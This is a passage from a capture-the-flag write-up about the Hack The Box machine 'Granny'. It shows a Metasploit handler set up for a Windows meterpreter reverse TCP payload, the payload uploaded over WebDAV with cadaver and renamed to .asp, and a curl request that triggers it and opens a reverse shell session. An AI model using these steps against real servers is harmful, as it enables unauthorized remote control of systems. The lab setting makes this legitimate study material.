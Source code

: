 ```sh

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST 10.10.16.12
LHOST => 10.10.16.12
msf6 exploit(multi/handler) > set LHOST 10.10.16.12
LHOST => 10.10.16.12
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) >
```
{% endraw %}

<br />
Use cadaver to PUT the file and MOVE the file exactly like we did before.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ cadaver http://10.10.10.15       
dav:/> put special.txt
Uploading special.txt to `/special.txt':
Progress: [=============================>] 100.0% of 38316 bytes succeeded.
dav:/> move special.txt special.asp
Moving `/special.txt' to `/special.asp': failed:
Could not parse response: XML parse error at line 1: Extra content at the end of the document

dav:/>
```
{% endraw %}

<br />
Curl the uploaded file.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ curl http://10.10.10.15/special.asp  
```
{% endraw %}

<br />
Check the multi/handler and catch the meterpreter session.

{% raw %}
```sh
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.16.12:443 
[*] Sending stage (177734 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.16.12:443 -> 10.10.10.15:1041) at 2025-01-30 02:04:26 +1100

meterpreter >
```
{% endraw %}

